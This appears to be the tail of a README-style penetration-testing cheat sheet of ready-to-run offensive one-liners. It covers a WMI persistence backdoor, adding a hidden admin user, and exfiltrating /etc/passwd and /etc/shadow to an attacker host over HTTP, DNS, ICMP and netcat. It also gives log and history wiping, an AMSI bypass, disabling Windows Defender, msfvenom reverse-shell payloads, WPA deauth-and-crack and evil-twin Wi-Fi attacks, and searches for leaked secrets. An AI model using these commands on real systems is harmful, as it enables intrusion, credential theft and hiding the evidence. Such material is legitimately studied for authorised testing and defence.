wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="Backdoor", EventNamespace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

# Add admin user
net user hacker Password123! /add
net localgroup administrators hacker /add
```

---

## 24. Data Exfiltration

```bash
# Over HTTP
curl -X POST -d @/etc/passwd http://LHOST:8000/exfil

# Over DNS (slow but stealthy)
cat /etc/passwd | xxd -p | while read line; do nslookup $line.LHOST; done

# Over ICMP
# Attacker: tcpdump -i eth0 icmp
# Target: cat /etc/passwd | xxd -p | while read line; do ping -c1 -p $line LHOST; done

# Tar + base64 + paste
tar czf - /interesting/dir | base64 -w0
# Copy-paste the output

# Encrypted exfil
tar czf - /data | openssl enc -aes-256-cbc -pass pass:SECRET | base64 -w0 | curl -X POST -d @- http://LHOST/exfil

# Via authorized SMB
smbclient //LHOST/share -U user%pass -c "put /etc/passwd"

# Netcat file transfer
nc LHOST 4444 < /etc/shadow

# Compress and send
tar czf - /etc/shadow /etc/passwd | nc LHOST 4444
```

---

## 25. Defense Evasion

```bash
# Clear Linux logs
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
echo "" > ~/.bash_history
history -c
unset HISTFILE

# Timestomping
touch -t 202301010000 /path/to/file

# AMSI bypass (PowerShell)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Windows Defender disable
Set-MpPreference -DisableRealtimeMonitoring $true

# Clear Windows event logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Encode payloads
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -e x86/shikata_ga_nai -i 5 > shell.elf
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -e x86/shikata_ga_nai -i 5 > shell.exe
```

---

## 26. Wireless Attacks

```bash
# Monitor mode
airmon-ng start wlan0

# Scan networks
airodump-ng wlan0mon

# Capture WPA handshake
airodump-ng -c CHANNEL --bssid BSSID -w capture wlan0mon
aireplay-ng -0 5 -a BSSID wlan0mon  # Deauth to force handshake

# Crack WPA/WPA2
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
hashcat -m 22000 capture.hc22000 /usr/share/wordlists/rockyou.txt

# WPS attack
reaver -i wlan0mon -b BSSID -vv

# Evil twin
airbase-ng -e "FreeWiFi" -c 6 wlan0mon

# Scan for WPS enabled
wash -i wlan0mon

# Probe request capture
airodump-ng --essid-regex ".*" wlan0mon
```

---

## 27. OSINT

```bash
# Username search
sherlock username

# Email breach check
curl -s "https://haveibeenpwned.com/api/v3/breachedaccount/EMAIL" -H "hibp-api-key: KEY"

# Domain reputation
curl -s "https://www.virustotal.com/api/v3/domains/TARGET" -H "x-apikey: KEY"

# IP reputation
curl -s "https://api.shodan.io/shodan/host/IP?key=KEY"

# Wayback machine
curl -s "http://web.archive.org/cdx/search/cdx?url=TARGET&output=json&fl=timestamp,original&collapse=urlkey"

# GitHub secrets search
# org:TARGET_ORG password
# org:TARGET_ORG secret
# org:TARGET_ORG api_key

# Pastebin search
curl -s "https://psbdmp.ws/api/v3/search/TARGET"

# Certificate transparency
curl -s "https://crt.sh/?q=%25.TARGET&output=json" | jq -r '.[].name_value' | sort -u

# Google cache
# cache:TARGET

# Social media OSINT
# LinkedIn: site:linkedin.com "TARGET" employees
# Twitter: from:TARGET_HANDLE "password" OR "credential" OR "leak"

# Metadata extraction from documents
exiftool document.pdf
```

---

## Contributing

Got a one-liner that saved your pentest? Submit a PR!

### Rules
- Every command must be **tested and working**
- Include `TARGET`, `LHOST`, `LPORT` as placeholders
- Group by category
- No duplicates
- Keep it practical - no theoretical-only attacks

---

## License

MIT License - see [LICENSE](LICENSE) for details.

---

<p align="center">
  <sub>Built from real-world pentest experience. Use responsibly. Hack legally.</sub>
</p>
